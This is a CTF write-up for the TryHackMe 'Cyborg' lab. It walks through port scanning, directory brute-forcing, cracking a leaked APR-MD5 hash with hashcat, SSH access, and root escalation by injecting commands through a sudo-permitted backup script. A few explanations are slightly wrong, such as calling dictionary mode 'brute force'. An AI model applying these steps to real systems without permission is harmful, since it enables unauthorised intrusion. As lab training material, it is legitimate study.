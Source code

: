 # TRYHACKME – Cyborg (CTF)

![Cyborg.png](Cyborg.png)

Use nmap tool to scan target ports

**`nmap 10.10.23.140`**

![nmap-scan#1.png](nmap-scan1.png)

Port: Services:

22     ssh (Secure Shell)

80     http (Hypertext Transfer Protocol)

Use gobuster tool to brute-force directories on web servers

`gobuster dir -u http://10.10.23.140 -w /usr/share/seclists/Discovery/Web-Content/common.txt`

> dir –> to search for directories

> -u –> specify the URL

> -w –> path to the worldlist

![gobuster-scan#1.png](gobuster-scan1.png)

Directories found:

/admin

/etc

![etc-dir#1.png](etc-dir1.png)

![etc-squid-dir#1.png](etc-squid-dir1.png)

![md5-hash#1.png](md5-hash1.png)

**Identify the hash type**

**`hash-identifier`** 

**> hash** –> **$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.**

![hash-identifier#1.png](hash-identifier1.png)

**hash type: md5(APR)**

Crack hash using hashcat tool

**`hashcat -m 1600 -a 0 hash.txt /usr/share/wordlists/rockyou.txt`**

> -m –> specifies the hash type (1600 – md5 APR)

> -a –> specifies the attack mode (0 – brute force)

![hashcat#1.png](hashcat1.png)

![admin-index-page-file#1.png](admin-index-page-file1.png)

Unzip the file

**`tar –xf archive.tar`**

> -xf –> used to extract .rar files

![list-zip-file#1.png](list-zip-file1.png)

![unzip-tar-file#1.png](unzip-tar-file1.png)

**`cat README`**

Give as a hint to search for BorgBackup tool

Download borgbackup tool

**`apt install borgbackup –y`**

Extract files with borg

**`sudo borg extract Downloads/home/field/dev/final_archive::music_archive`**

Use the previous cracked  password

**`cat note.txt`**

![cat-file#1.png](cat-file1.png)

Connect to the target machine via ssh

**`ssh alex@10.10.159.75`**

![ssh#1.png](ssh1.png)

**`cat user.txt`**

![cat-file#2.png](cat-file2.png)

List the user privileges to see what we can do with this user

**`sudo -l`**

![list-user-privileges#1.png](list-user-privileges1.png)

alex can run this script as “sudo”

`cd /etc/mp3backups`

![mv-dir-mp3backups#1.png](mv-dir-mp3backups1.png)

**`cat backup.sh`**

![cat-file#3.png](cat-file3.png)

Optional arguments can be passed through this instruction (OPTARG) 

List directories on root

**`sudo ./backup.sh -c “ls /root”`**

> -c –> pass a command

![run-file-arguments#1.png](run-file-arguments1.png)

**`sudo ./backup.sh -c “cat /root/root.txt”`**

![run-file-aguments#2.png](run-file-aguments2.png)
